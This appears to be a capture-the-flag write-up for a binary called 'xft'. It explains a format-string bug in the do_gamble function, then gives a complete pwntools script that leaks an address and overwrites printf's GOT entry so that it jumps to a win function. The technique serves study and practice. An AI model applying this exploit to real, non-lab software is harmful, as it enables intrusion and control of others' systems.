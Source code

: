 #### writeup

* `checksec` xtf: RELRO: No RELRO means we can overwrite GOT， allowing us to redirect `printf` to another function like `win`. & PIE: PIE enabled, so function addresses are randomized at runtime. The base address needs to be calculated dynamically.
* The vulnerability is located in the `do_gamble` function, where a user-controllable format string is passed to `printf`:

	```
	00001fba  488d85d0fdffff     lea     rax, [rbp-0x230 {format}]
	00001fc1  4889c7             mov     rdi, rax {format}
	00001fc4  b800000000         mov     eax, 0x0
	00001fc9  e8b2f0ffff         call    printf
	```

* redirecting printf to win via Format String Vulnerability

	* offset
	
		```
		# got the offset = 8
		for i in range(10):
			p.sendlineafter('Press any key to continue...', b'\nc')
			p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
			gamble()
		```
	* get the addr of player name
	
		```
		p.recvuntil(b"Hello friend, welcome to xft. what's your handle?")
	p.sendline(b"%1$p")
		```
	
	* get the offset to printf
	
		- calculating the offset by look at the got table & the addr of player name which is 640
	
	* get the offset to win func
		- gdb: info address win by substract the addr of player name which is 12351
		
		-  or by the printf in code offset is 0x4258 - the win in the code offset is 0x1219 = 12351
	* payload 
	
		```
		payload = fmtstr_payload(offset=8, writes={printf_addr: win_addr})
		```
		
#### pwnscript

```
import math
from pwn import *


def is_fibonacci(num):
    def is_perfect_square(n):
        return int(math.sqrt(n)) ** 2 == n

    return is_perfect_square(5 * num * num + 4) or is_perfect_square(5 * num * num - 4)


def hextoint(hex):
    return int(hex, 16)


def gamble(debug=True):
    p.recvuntil(b"What will you do?")
    p.sendline(b"g\n")
    line = p.recvuntil(b"): ")
    try:
        decoded_line = line.decode('utf-8')
    except UnicodeDecodeError:
        decoded_line = line.decode('latin-1')

    max_value = float(decoded_line.split("max")[1].strip("(): "))
    bet_value = max_value / 2
    # print('bet_value: ', bet_value)
    p.sendline(str(bet_value).encode())
    #
    p.recvuntil(b"*** GAMBLE ***")
    p.recvline()

    options = []
    for i in range(10):
        if len(options) == 5:
            break
        line = p.recvline().decode()
        if ')' in line:
            num = int(line.split(')')[1].strip())
            # print('num: ', num)
            options.append(num)

    non_fib = None
    for num in options:
        if not is_fibonacci(num):
            non_fib = num
            break
    #
    if non_fib is not None:
        p.sendline(str(options.index(non_fib) + 1).encode())

    if debug:
        line = p.recvuntil(b"succubus.").decode()
        match = re.search(r'Well done, (.*?)!', line)
        if match:
            value = match.group(1).strip()
            print(f"line {line}\nExtracted value: {value}\n")
            return value
        return None


context.arch = 'amd64'
if args.REMOTE:
    p = remote('lol', 4002)
elif args.HOST:
    p = process('./xft')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
    p = gdb.debug('./xft',
                  gdbscript='''
                  b *do_gamble+449
                  c
                  ''')

p.recvuntil(b"Hello friend, welcome to xft. what's your handle?")
p.sendline(b"%1$p")
ret = gamble()
printf_addr = hextoint(ret) - 640
win_addr = printf_addr - 12351
print('printf_addr', hex(printf_addr))
print('win_addr', hex(win_addr))

payload = fmtstr_payload(offset=8, writes={
    printf_addr: win_addr
})

## got the offset = 8
# for i in range(10):
# # overwrite printf addr
#     p.sendlineafter('Press any key to continue...', b'\nc')
#     p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
#     gamble()

p.sendlineafter('Press any key to continue...', b'c')
p.sendlineafter('What will you do?', b'c')
print(payload)
p.sendlineafter("what's your handle?", payload)

gamble(False)

p.interactive()

```
